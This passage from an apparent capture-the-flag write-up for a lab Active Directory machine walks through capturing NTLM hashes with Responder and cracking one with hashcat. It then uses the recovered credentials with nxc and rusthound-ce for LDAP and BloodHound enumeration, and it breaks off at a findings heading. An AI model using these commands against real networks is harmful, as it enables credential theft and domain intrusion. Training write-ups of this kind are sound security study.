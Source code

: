 **Step 3: Responder Setup**
Responder was configured to capture incoming NTLM authentication requests:

```bash
sudo responder -I tun0
```
{: .nolineno }

**Results:**

![](Pasted%20image%2020250831174852.png)
_Responder response as NTLM hash_

The attack successfully captured NTLM hashes for the user <b><span style="color:rgb(219, 0, 0)">p.agila</span></b>
:
```
p.agila::FLUFFY:hash_values_here
```
{: .nolineno }

**Step 4: Hash Cracking**
Using hashcat to crack the captured NTLMv2 hash:

```bash
└─$ hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```
{: .nolineno }

![](Pasted%20image%2020250831175007.png)
_Password hash cracked with hashcat_

**Cracked Credentials:** `p.agila:pr********303`

## 6️⃣ Active Directory Enumeration

**Content:**
With valid credentials obtained, comprehensive AD enumeration was performed:

**Check for LDAP access:**
```bash
└─$ nxc ldap 10.10.11.69 -u 'p.agila' -p 'pr********303' 
LDAP        10.10.11.69     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.10.11.69     389    DC01             [+] fluffy.htb\p.agila:pr********303 
```
{: .nolineno }


**Bloodhound Data Collection:**
```bash
rusthound-ce --domain fluffy.htb -u 'p.agila' -p 'pr********303' --zip
nxc ldap fluffy.htb -u 'p.agila' -p 'pr********303' --bloodhound --dns-server 10.10.11.69 -c All
```
{: .nolineno }

**Key Findings:**
